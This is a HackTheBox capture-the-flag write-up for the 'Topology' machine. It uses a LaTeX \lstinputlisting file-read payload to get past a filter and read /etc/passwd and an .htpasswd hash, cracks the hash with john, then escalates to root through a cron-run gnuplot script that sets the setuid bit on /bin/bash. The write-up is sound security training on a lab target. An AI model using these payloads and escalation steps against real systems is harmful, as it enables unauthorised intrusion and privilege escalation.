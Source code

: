 # HackTheBox: [Topology](https://app.hackthebox.com/machines/Topology)

## Enumerate

```console
$ sudo nmap -nv -sCV -Pn $t                                                   
[...]
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service running on port 80:

![](_/htb-topology-20231114-1.png)

There's one active link under "Software projects", the LaTeX Equation Generator. I add the vhost `latex.topology.htb` to `/etc/hosts`.

And here's the linked page, `http://latex.topology.htb/equation.php`:

![](_/htb-topology-20231114-2.png)

The index is open for that URL:



![](_/htb-topology-20231114-3.png)

The `header.tex` file has an interesting include, `listings`, which is [a vector for LFI](https://users.ece.utexas.edu/~garg/dist/listings.pdf)i:

![](_/htb-topology-20231114-4.png)

`$\lstinputlisting{/etc/passwd}$` does _not_ work.

But `$\lstinputlisting{/etc/passwd}$` does:

![](_/htb-topology-20231114-5.png)

The vhost `dev.topology.htb` is protected with basic-http-auth:

![](_/htb-topology-20231114-6.png)

The `stats.topology.htb` page has a dynamically generated stats `png`.

![](_/htb-topology-20231114-7.png)

## Exploit

I'm able to view the `.htpasswd` file at the root of the `dev.topology.htb` vhost:

![](_/htb-topology-20231114-8.png)

Here's the hash from the image above:

```text
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Cracking the hash with `john`:

```console
$ john --wordlist=~/rockyou.txt hash 
[...]
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
Session completed. 
```

The `dev.topology.htb` page looks like a draft page for a nascent software consulting business:

![](_/htb-topology-20231114-9.png)

But the creds are also valid for `ssh` login:

```console
$ ssh vdaisley@$t
[...]

vdaisley@topology:~$ cat user.txt
f6395b[...]
```

## Escalate

The `stats.topology.htb` vhost mentioned above has a `png` file showing the system load average. It appears to be updated frequently, e.g. every minute:

```console
vdaisley@topology:~$ date && ls -l /var/www/stats/files/load.png
Tue 14 Nov 2023 05:29:55 PM EST
-rw-r--r-- 1 www-data www-data 13615 Nov 14 17:29 /var/www/stats/files/load.png
```

I transfer `pspy64` to the target:

```console
$ scp pspy64 vdaisley@$t:/tmp/
vdaisley@10.10.11.217's password: 
pspy64                                                                                                       100% 3032KB 344.4KB/s   00:08    
```

And this gives me what I need:

```console
vdaisley@topology:~$ chmod +x /tmp/pspy64
vdaisley@topology:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/14 17:35:56 CMD: UID=1007  PID=3163   | /tmp/pspy64
[...]
2023/11/14 17:36:01 CMD: UID=0     PID=3172   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3174   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/14 17:36:01 CMD: UID=0     PID=3175   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/14 17:36:01 CMD: UID=0     PID=3177   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3176   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/14 17:36:01 CMD: UID=0     PID=3178   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3182   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3181   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3180   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3179   | netstat -i 
2023/11/14 17:36:01 CMD: UID=0     PID=3186   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3185   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3184   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3183   | uptime 
2023/11/14 17:36:01 CMD: UID=0     PID=3187   | tail -60 /opt/gnuplot/netdata.dat 
2023/11/14 17:36:01 CMD: UID=0     PID=3189   | gnuplot /opt/gnuplot/networkplot.plt 
^CExiting program... (interrupt)
```

So now I know `root` runs this every minute or so:

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

The command accesses files in a writable (though not readable) directory:

```console
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14 07:45 /opt/gnuplot
```

`gnuplot` has a `system` command I can exploit: <http://www.bersch.net/gnuplot-doc/system.html>

Using this approach, I'm able to run `bash` with `euid=0` and access the `root.txt` flag:

```console
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/x.plt
vdaisley@topology:~$ sleep 60 && ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
3a2016[...]
```

## Summary

This machine is an exercise in bypassing a PHP command filter to prevent malicious LaTeX commands, but they forgot at least one: `\lstinputlisting`. This allows retrieving the `/etc/passwd` file, but more practically it allows grabbing an `.htpasswd` file from `/var/www/dev`. With that file, the username and hashed password for the foothold user is easy via `john` and the `rockyou.txt` wordlist.

Privilege escalation is done by writing a `plt` file to `/opt/gnuplot` containing this line:

```sh
system "chmod u+s /bin/bash"
```

A `cron` job runs every minute to generate the stats for `/var/www/stats`, but that `plt` file gets run and makes `bash` run with `setuid` user `root`.
